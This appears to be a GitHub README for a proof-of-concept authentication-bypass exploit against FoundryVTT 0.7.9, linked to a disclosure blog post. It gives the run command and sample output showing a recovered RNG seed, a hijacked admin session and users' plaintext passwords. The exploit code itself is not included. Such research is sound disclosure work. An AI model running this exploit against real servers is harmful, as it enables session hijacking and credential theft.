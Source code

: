 # FoundryVTT admin authenttication bypass

For more info, read this [blogpost](https://catnip.fyi/posts/foundry-p3/).
This repo contains the POC exploit to crack an admin session ([rnghax.py](rnghax.py)) and
also a file i used to calculate the accurracy of my base64 decode
([riddec_stonks.py](riddec_stonks.py)).

Install the deps like:
> pip install -r requirements.txt

and run it like:
```
❯  python rnghax.py http://localhost:30000
server running foundry 0.7.9
data path at /home/catnip/.local/share/FoundryVTT
trying with tokens: ['db8x4llkgsqip7deh42cqrj3', '1puya3xxss9ftryt3x1zprlu']
found seed: 9993270706845480418:11192517990384452169
looking for sessions
----
found following sessions:
rid: ji38xvzub5j34pbd8vfksowi
rid: 1puya3xxss9ftryt3x1zprlu
rid: db8x4llkgsqip7deh42cqrj3
rid: fgo1aa8w635pk7bw44kkt35e
admin! rid: tmcg42wsw3g99fn55oyeciv6 uid: yYMaJwcVCcqJN09P name: Gamemaster password:
----
found following users:
uid: 9QMfMfcKwjnU0lQ7 name: lit password: af role: 2
uid: FGWnyV4lH2KmuRzd name: salad password: kektop role: 1
uid: R8xJ9pkyBP54OIsN name: memes password: topkek role: 1
uid: iGNzDi9gdSeZfgZH name: yeet password: top role: 1
uid: yYMaJwcVCcqJN09P name: Gamemaster password:  role: 4
```
